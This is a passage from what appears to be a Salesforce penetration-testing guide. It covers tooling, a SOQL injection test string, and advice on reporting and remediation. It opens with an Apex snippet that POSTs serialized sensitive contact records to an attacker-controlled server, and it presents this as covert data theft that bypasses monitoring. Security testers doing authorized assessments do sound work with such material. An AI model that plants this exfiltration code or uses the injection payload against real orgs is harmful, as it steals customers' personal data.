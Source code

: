     // Prepare the exfiltration request
    HttpRequest req = new HttpRequest();
    req.setEndpoint('https://attacker-controlled-server.com/log'); // Your Burp Collaborator or server
    req.setMethod('POST');
    req.setHeader('Content-Type', 'application/json');
    req.setBody(JSON.serialize(sensitiveContacts));

    // Send the data
    new Http().send(req);
    ```
*   **Impact:** Covert, large-scale data theft that bypasses standard Salesforce event monitoring.

## 7. Essential Tooling & Payloads

*   **Browser Extensions:**
    *   **Salesforce Inspector:** Absolutely essential for on-the-fly data and metadata inspection.
    *   **Salesforce Advanced Code Searcher:** Quickly search an org's codebase.
*   **Web & API Testing:**
    *   **Burp Suite Professional:** Mandatory for intercepting and manipulating `/aura`, `/apexremote`, and API traffic.
    *   **Workbench:** A powerful web-based tool for SOQL queries, REST API exploration, and metadata browsing.
*   **CLI & Static Analysis:**
    *   **Salesforce CLI (SFDX):** For retrieving metadata (code, profiles, etc.) for offline analysis.
    *   **PMD Source Code Analyzer:** Use with the Apex rule set to find security flaws in downloaded code.
*   **Go-To SOQLi Payload:**
    `' OR Name != '` (classic boolean-based test)

## 8. Reporting & Remediation Guidance

*   **Prioritize by Impact:** Don't just report "SOQL Injection." Report "Authenticated Sales User Can Exfiltrate All Customer PII via SOQL Injection in Search Component."
*   **Provide Actionable Fixes:**
    *   **For Code:** Provide the exact line number and the secure coding alternative (e.g., "Replace `Database.query()` with a static query using bind variables.").
    *   **For Permissions:** Recommend creating granular Permission Sets following the Principle of Least Privilege. Advise against cloning the "System Administrator" profile.
    *   **For Configuration:** Provide the exact navigation path in `Setup` and the setting to change (e.g., "In Sharing Settings, set the OWD for the `Case` object to `Private`.").
*   **Reference Official Docs:** Link to Salesforce help articles or security guides to add credibility and assist the development team.